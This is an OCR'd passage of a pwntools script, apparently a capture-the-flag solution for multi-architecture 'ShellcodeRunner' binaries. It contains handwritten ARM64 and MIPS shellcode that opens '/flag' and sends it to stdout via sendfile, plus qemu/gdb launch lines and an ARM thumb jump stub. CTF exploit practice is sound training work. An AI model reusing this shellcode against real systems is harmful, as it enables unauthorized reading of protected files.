 ```python
    mov  x3, 100
    mov  x8, #SYS_sendfile
    svc 0
flag:
	.asciz "/flag" 
''')

mips_sc = compile_mips('''
    li  $t1, 0x2f666c61
    sw  $t1, ($sp)
    lui $t9, 0x6700
    sw $t9, 4($sp)
    
    li $t1,0xfa5
    li $t2,0x106f
    
    li $t6,0x40054c
    beq $ra,$t6,main
    nop
    li $t1,0x138a
    li $t2,0x13af
    
    main:
    move $a0,$sp
    li $a1,0
    li $a2,0
    move $v0, $t1
    syscall 0x40404

    li $a0, 1
    move $a1, $v0
    li $a3, 100
    move $v0, $t2
    syscall 0x40404
''')

#io = process("./ShellcodeRunnerX86")
#gdb.attach(io,"b * 0x080497B3")

# io = process("./ShellcodeRunnerX64")
# gdb.attach(io,"b * 0x401717")

# io = process(["/bin/sh",'-c','qemu-arm ./ShellcodeRunnerARM32'])
# io = process(["/bin/sh",'-c','qemu-arm -g 1234 ./ShellcodeRunnerARM32'])
# gdb.attach(io,"b * 0x10614")

#io = process(["/bin/sh",'-c','qemu-aarch64 ./ShellcodeRunnerARM64'])
# io = process(["/bin/sh",'-c','qemu-aarch64 -g 1234 ./ShellcodeRunnerARM64'])
#b * 0x400768

#io = process(["/bin/sh",'-c','qemu-mips ./ShellcodeRunnerMIPS'])
io = process(["/bin/sh",'-c','qemu-mips -g 1234 ./ShellcodeRunnerMIPS'])
#b * 0x400544

# io = process(["/bin/sh",'-c','qemu-mips64 ./ShellcodeRunnerMIPS64'])
#io = process(["/bin/sh",'-c','qemu-mips64 -g 1234 ./ShellcodeRunnerMIPS64'])
#b * 120004088

thumb_jmp = compile_arm('''
    add    r2, pc, #1
    bx     r2                        
''')

```